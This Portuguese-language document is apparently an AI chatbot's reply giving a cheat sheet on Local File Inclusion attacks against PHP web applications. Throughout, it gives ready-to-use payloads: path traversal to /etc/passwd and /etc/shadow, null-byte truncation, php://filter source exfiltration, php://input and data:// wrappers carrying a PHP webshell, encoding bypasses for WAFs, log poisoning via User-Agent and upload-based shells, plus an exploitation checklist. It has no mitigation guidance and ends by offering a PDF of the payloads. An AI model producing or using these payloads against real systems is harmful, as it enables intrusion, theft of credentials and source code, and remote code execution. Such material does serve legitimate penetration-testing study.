 Aqui está uma anotação completa sobre **LFI (Local File Inclusion)** com foco em formas de **bypass**, **payloads**, e **explicações detalhadas** sobre seu funcionamento e como utilizá-los.

---

## 📌 **LFI – Local File Inclusion**

### ✅ O que é LFI?

LFI é uma vulnerabilidade que permite a um atacante incluir arquivos locais do servidor no navegador, através da manipulação de parâmetros em aplicações web vulneráveis.

Exemplo típico:

```
http://site.com/index.php?page=about
```

Se o parâmetro `page` for vulnerável e não houver validação adequada, é possível tentar incluir arquivos arbitrários do sistema, como:

```
http://site.com/index.php?page=../../../../etc/passwd
```

---

## 🔍 Objetivos do LFI

- Ler arquivos sensíveis (`/etc/passwd`, logs, arquivos `.env`, etc).
- Conseguir **RCE** (execução remota de comandos) em casos com wrappers como `php://input` ou upload de shell.
- Enumerar diretórios e arquivos do sistema.
- Explorar mal uso de funções como `include`, `require`, `fopen`, `file_get_contents`, etc.

---

## 🧬 Formas de Bypass em LFI

### 1. **Bypass com Diretórios**

Usar múltiplos `../` para subir na árvore de diretórios:

```php
?page=../../../../../../etc/passwd
```

#### Dica:

- Pode ser necessário repetir `../` muitas vezes até alcançar a raiz.
- Pode usar scripts para automatizar isso (ex: `wfuzz`, `ffuf`, `burp intruder`).

---

### 2. **Truncamento de Sufixo (Null Byte Injection)**

Alguns servidores antigos (ou versões antigas do PHP) permitem o uso de `%00` (null byte) para truncar strings e ignorar extensões adicionadas pelo código.

Exemplo:

```php
?page=../../../../etc/passwd%00
```

> ⚠️ Esse bypass depende da configuração do servidor e da versão do PHP. Desde o PHP 5.3 ele foi mitigado.

---

### 3. **Bypass com Wrappers do PHP**

#### a) `php://filter`

Permite ler arquivos como base64 sem executá-los:

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

🔍 **Utilidade**: exfiltrar código-fonte PHP protegido.

#### b) `php://input`

Usado para tentar RCE quando a entrada é incluída com `include("php://input")`.

```
POST /index.php?page=php://input
Content-Type: application/x-www-form-urlencoded

<?php system($_GET['cmd']); ?>
```

E acessar via:

```
/index.php?page=php://input&cmd=id
```

> ⚠️ Necessita que a entrada seja usada dentro de uma função de inclusão.

#### c) `data://`

Cria um stream em base64, semelhante ao `php://input`.

```
?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

Este base64 decodifica para: `<?php system($_GET['cmd']); ?>`

---

### 4. **Bypass com Codificação**

#### a) URL Encoding

```
?page=..%2f..%2f..%2fetc%2fpasswd
```

#### b) Double Encoding

```
?page=..%252f..%252fetc%252fpasswd
```

#### c) Mixed Encoding

Alguns WAFs permitem partes codificadas:

```
?page=..%2f..%252fetc/passwd
```

---

### 5. **Bypass com Inclusão de Logs**

Explorar arquivos de log com código PHP injetado por User-Agent, Referer, etc.

1. Enviar request com:

```
User-Agent: <?php system($_GET['cmd']); ?>
```

2. Incluir o arquivo de log:

```
?page=/var/log/apache2/access.log&cmd=id
```

> **Paths comuns de logs**:

- `/var/log/apache2/access.log`
- `/var/log/httpd/access_log`
- `/var/log/nginx/access.log`

---

### 6. **Bypass via Uploads**

1. Fazer upload de um arquivo com extensão `.jpg` ou `.txt` contendo PHP.

```php
<?php system($_GET['cmd']); ?>
```

2. Descobrir o caminho do arquivo (por brute-force ou diretório previsível).
    
3. Incluir:
    

```
?page=/uploads/shell.jpg&cmd=id
```

---

### 7. **Wrapper Input com Post Injection (LFI to RCE)**

PHP permite wrappers como `php://input`, e o código será interpretado se usado dentro de `include()`.

Exemplo:

```php
include($_GET['page']);
```

POST:

```http
POST /index.php?page=php://input
Content-Type: text/plain

<?php system($_GET['cmd']); ?>
```

Acesso:

```
/index.php?page=php://input&cmd=whoami
```

---

### 🧪 Ferramentas úteis

- **Burp Suite** – Automação de fuzzing em parâmetros.
- **wfuzz / ffuf** – Fuzzing de diretórios e caminhos.
- **Liffy** – Ferramenta em Python para exploração de LFI.
- **LFI Suite** – Ferramenta para automatizar leitura de arquivos com LFI.

---

### 🧷 Dicas de Arquivos Interessantes para LFI

|Sistema|Caminho|
|---|---|
|Linux|`/etc/passwd`, `/etc/hostname`, `/etc/shadow` (se tiver permissão)|
|Apache|`/var/log/apache2/access.log`|
|Nginx|`/var/log/nginx/access.log`|
|PHP|`/var/log/php_errors.log`, `php://filter/...`|
|Webapps|`.env`, `config.php`, `wp-config.php`|

---

## ✅ **Checklist para Exploração de LFI**

1. Testar inclusão básica com `../../../etc/passwd`
2. Testar wrappers `php://filter`, `php://input`, `data://`
3. Tentar truncamento `%00` se PHP antigo
4. Injetar payloads em logs (User-Agent)
5. Verificar possibilidade de upload + inclusão
6. Tentar codificações (%2e%2e%2f, double encoding)
7. Automatizar brute-force de caminhos sensíveis

---

Se quiser, posso montar uma cheat sheet em PDF com todos esses payloads e técnicas. Quer que eu gere isso?